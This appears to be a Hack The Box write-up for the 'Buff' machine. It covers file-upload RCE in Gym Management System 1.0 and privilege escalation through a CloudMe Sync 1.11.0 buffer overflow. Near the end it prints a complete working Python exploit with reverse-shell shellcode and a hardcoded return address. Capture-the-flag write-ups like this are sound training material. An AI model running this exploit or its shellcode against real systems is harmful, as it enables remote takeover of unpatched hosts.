 ```yaml
---
layout: single
title: Buff - Hack The Box
excerpt: "Buff is pretty straightforward: Use a public exploit against the Gym Management System, then get RCE. Do some port-forwarding, then use another exploit (buffer overflow against Cloudme Sync) to get Administrator access."
date: 2022-11-21
classes: wide
header:
  teaser: /assets/images/htb-writeup-buff/buff_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - buffer overflow
  - cve
  - windows
  - file upload
  - cloudme sync
---
```


![](/assets/images/htb-writeup-buff/buff_logo.png)

Buff is pretty straightforward: Use a public exploit against the Gym Management System, then get RCE. Do some port-forwarding, then use another exploit (buffer overflow against Cloudme Sync) to get Administrator access.

## Summary

- Use unauthenticated file upload vulnerability in Gym Management System 1.0 to get RCE
- Exploit a buffer overflow vulnerability in the CloudMe Sync application to get RCE as Administrator

## Portscan

![image-20200726162532670](/assets/images/htb-writeup-buff/image-20200726162532670.png)

## Website

There's a PHP web application running on port 8080 and it looks like it's a fitness/gym website.

![image-20200726161829858](/assets/images/htb-writeup-buff/image-20200726161829858.png)

![image-20200726162013695](/assets/images/htb-writeup-buff/image-20200726162013695.png)

![image-20200726162040519](/assets/images/htb-writeup-buff/image-20200726162040519.png)

![image-20200726162116526](/assets/images/htb-writeup-buff/image-20200726162116526.png)

The Contact page shows a possible software name / version which we'll look up on Exploit-DB.

![image-20200726162202199](/assets/images/htb-writeup-buff/image-20200726162202199.png)

Exploit-DB has a match for Gym Management System 1.0. At the bottom of every page on the website we see `projectworlds.in` so it's a fair guess that this is the software running this website.

![image-20200726162258198](/assets/images/htb-writeup-buff/image-20200726162258198.png)

Luckily for us, the exploit is unauthenticated and provides remote execution so we don't need anything else to get started.

```
# Exploit Title: Gym Management System 1.0 - Unauthenticated Remote Code Execution
# Exploit Author: Bobby Cooke
# Date: 2020-05-21
# Vendor Homepage: https://projectworlds.in/
# Software Link: https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/
# Version: 1.0
# Tested On: Windows 10 Pro 1909 (x64_86) + XAMPP 7.4.4
# Exploit Tested Using: Python 2.7.17
# Vulnerability Description: 
#   Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.
[...]
```

## Gym Management System exploitation

The exploit provides a nice pseudo-shell which is useful for looking around and running other commands. We can see our initial shell is running as user **Shaun** and that we can get the first flag.

![image-20200726162806589](/assets/images/htb-writeup-buff/image-20200726162806589.png)

## Priv esc

Checking the open ports on the machine, we see there's a MySQL instance running on port 3306 and something else running on port 8888.

![image-20200726163049549](/assets/images/htb-writeup-buff/image-20200726163049549.png)

On Exploit-DB we can find a few vulnerabilities for CloudMe Sync. I've highlighted the exploit I used. The CloudMe Sync software is not compiled with any of the protections enabled like ASLR and DEP so a good old buffer overflow with shellcode executable on the stack will work fine.

![image-20200726185742784](/assets/images/htb-writeup-buff/image-20200726185742784.png)

We'll need to do some port-forwarding to be able to reach port 8888 with our exploit. I could use plink or metasploit to do that but instead I'll use the https://github.com/xct/xc reverse shell tool. I'll transfer the tool with smbclient.py from impacket then rename it to contain my IP address and port. It's an optional feature of xc which is nice in case you can execute a file but can't pass any parameters to it.

![image-20200726184935454](/assets/images/htb-writeup-buff/image-20200726184935454.png)

After catching the reverse shell with xc, we'll use the `!portfwd` command to redirect port 8888 on our local machine to port 8888 on the remote box.

![image-20200726185112725](/assets/images/htb-writeup-buff/image-20200726185112725.png)

Next, we'll generate a shellcode that'll spawn a reverse shell. The output is in Python3 format (it contains the b before the string indicating it's a byte type). I'll clean that up and rename buf to shellcode and stick it in the downloaded exploit.

![image-20200726185959460](/assets/images/htb-writeup-buff/image-20200726185959460.png)

Final exploit shown below:

```python
#######################################################
# Exploit Title: Local Buffer Overflow on CloudMe Sync v1.11.0
# Date: 08.03.2018
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1110.exe
# Category: Local
# Exploit Discovery: Prasenjit Kanti Paul
# Web: http://hack2rule.wordpress.com/
# Version: 1.11.0
# Tested on: Windows 7 SP1 x86
# CVE: CVE-2018-7886
# Solution: Update CloudMe Sync to 1.11.2
#######################################################

#Disclosure Date: March 12, 2018
#Response Date: March 14, 2018
#Bug Fixed: April 12, 2018

# Run this file in victim's win 7 sp1 x86 system where CloudMe Sync 1.11.0 has been installed.

import socket

target="127.0.0.1" 

junk="A"*1052

eip="\x7B\x8A\xA9\x68"		#68a98a7b : JMP ESP - Qt5Core.dll

shellcode =  ""
shellcode += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
shellcode += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
shellcode += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
shellcode += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
shellcode += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
shellcode += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
shellcode += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
shellcode += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
shellcode += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
shellcode += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
shellcode += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
shellcode += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
shellcode += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
shellcode += "\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
shellcode += "\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x15\x68"
shellcode += "\x02\x00\x15\xb3\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
shellcode += "\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
shellcode += "\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
shellcode += "\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
shellcode += "\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
shellcode += "\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
shellcode += "\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
shellcode += "\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
shellcode += "\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
shellcode += "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

payload=junk+eip+shellcode

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
```

The exploit triggers the buffer overflow, executes our shellcode and spawn a reverse shell which we catch with a netcat listener.

![image-20200726190204674](/assets/images/htb-writeup-buff/image-20200726190204674.png)